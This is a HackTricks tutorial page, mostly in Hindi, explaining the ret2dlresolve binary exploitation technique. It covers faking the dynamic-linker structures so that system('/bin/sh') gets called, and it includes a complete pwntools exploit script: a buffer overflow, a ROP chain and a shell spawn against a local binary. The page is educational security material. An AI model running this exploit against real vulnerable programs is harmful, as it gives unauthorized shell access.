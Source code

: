 # Ret2dlresolve

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

जैसा कि [**GOT/PLT**](../arbitrary-write-2-exec/aw2exec-got-plt.md) और [**Relro**](../common-binary-protections-and-bypasses/relro.md) के पृष्ठ में समझाया गया है, बिना फुल रिलरो के बाइनरी पहली बार उपयोग किए जाने पर प्रतीकों (जैसे बाहरी पुस्तकालयों के लिए पते) को हल करेंगी। यह समाधान **`_dl_runtime_resolve`** फ़ंक्शन को कॉल करके होता है।

**`_dl_runtime_resolve`** फ़ंक्शन स्टैक से कुछ संरचनाओं के संदर्भ लेता है जिनकी उसे निर्दिष्ट प्रतीक को हल करने के लिए आवश्यकता होती है।

इसलिए, सभी इन संरचनाओं को **फेक करना संभव है** ताकि डायनामिक लिंक किए गए प्रतीक को हल किया जा सके (जैसे **`system`** फ़ंक्शन) और इसे एक कॉन्फ़िगर किए गए पैरामीटर के साथ कॉल किया जा सके (जैसे **`system('/bin/sh')`**).

आमतौर पर, सभी इन संरचनाओं को एक **प्रारंभिक ROP श्रृंखला बनाकर फेक किया जाता है जो `read` को एक लिखने योग्य मेमोरी पर कॉल करता है, फिर **संरचनाएँ** और स्ट्रिंग **`'/bin/sh'`** को पास किया जाता है ताकि वे एक ज्ञात स्थान पर पढ़े जाएं, और फिर ROP श्रृंखला **`_dl_runtime_resolve`** को `$'/bin/sh'` के पते के साथ कॉल करके जारी रहती है।

{% hint style="success" %}
यह तकनीक विशेष रूप से उपयोगी है यदि syscall गैजेट्स नहीं हैं (जैसे [**ret2syscall**](rop-syscall-execv.md) या [SROP](srop-sigreturn-oriented-programming.md) जैसी तकनीकों का उपयोग करने के लिए) और libc पते लीक करने के तरीके नहीं हैं।
{% endhint %}

आप इस तकनीक के बारे में बेहतर व्याख्या दूसरे भाग में पा सकते हैं:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## Structures

3 संरचनाओं को फेक करना आवश्यक है: **`JMPREL`**, **`STRTAB`** और **`SYMTAB`**। आप [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve#structures) में इनका निर्माण कैसे किया जाता है, इसके बारे में बेहतर व्याख्या पा सकते हैं।

## Attack Summary

1. कुछ स्थान पर फेक संरचनाएँ लिखें
2. सिस्टम के पहले तर्क को सेट करें (`$rdi = &'/bin/sh'`)
3. **`_dl_runtime_resolve`** को कॉल करने के लिए स्टैक पर संरचनाओं के पते सेट करें
4. **कॉल करें** `_dl_runtime_resolve`
5. **`system`** को हल किया जाएगा और `'/bin/sh'` को तर्क के रूप में कॉल किया जाएगा

## Example

आप [**इस तकनीक का एक उदाहरण यहाँ**](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve/exploitation) **पैसा सकते हैं जिसमें अंतिम ROP श्रृंखला की बहुत अच्छी व्याख्या है**, लेकिन यहाँ अंतिम एक्सप्लॉइट है जो उपयोग किया गया है:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = elf.process()
rop = ROP(elf)

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * 76)
rop.read(0, dlresolve.data_addr) # read to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)     # call .plt and dl-resolve() with the correct, calculated reloc_offset

log.info(rop.dump())

p.sendline(rop.chain())
p.sendline(dlresolve.payload)    # now the read is called and we pass all the relevant structures in

p.interactive()
```
## संदर्भ

* [https://youtu.be/ADULSwnQs-s](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
